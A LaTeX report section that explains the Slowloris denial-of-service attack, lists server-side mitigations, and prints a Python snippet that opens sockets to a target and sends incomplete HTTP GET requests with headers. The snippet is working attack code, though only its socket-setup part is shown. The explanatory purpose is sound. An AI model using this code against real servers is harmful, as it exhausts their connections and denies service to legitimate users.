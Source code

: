 
\subsection{DDoS}
\label{sec:ddos}

The attack involves sending partial HTTP requests to the targeted web server, with none ever being completed. As a result, the targeted server opens more connections, assuming the requests will be completed.

Eventually, the server's maximum allotted connection sockets are consumed one-by-one until fully exhausted, thus blocking any legitimate connection attempts. High-volume Web sites may take longer for Slowloris to completely take over, but ultimately, the DDoS attack will result in all legitimate requests being denied.

Slowloris DDoS attacks can be mitigated by following the following steps:
\begin{itemize}
    \item Increase the maximum number of clients the Web server will allow.
    \item Limit the number of connections a single IP address is allowed to attempt.
    \item Place restrictions on the minimum transfer speed at which a connection is allowed.
    \item Limit the amount of time a client is permitted to stay connected.
\end{itemize}

What happens in our code below is that we initialize a single socket and then send a GET request to a random URL on the server. Afterwards, we also send the regular headers to the server that were initialized at the beginning of the code.

\begin{codesnippet}[H]
    \caption{Socket initialization}
    \label{code:socket_initialization}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    list_of_sockets = []

    regular_headers = [
        "User-agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/1234567",
        "Accept-language: en-US,en,q=0.5"
    ]

    def init_socket(ip, port):
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((ip, int(port)))

        sock.send("GET /?{} HTTP/1.1\r\n".format(random.randint(0,4000)).encode("utf-8"))

        for header in regular_headers:
            sock.send("{}\r\n".format(header).encode('utf-8'))

        return sock
\end{lstlisting}

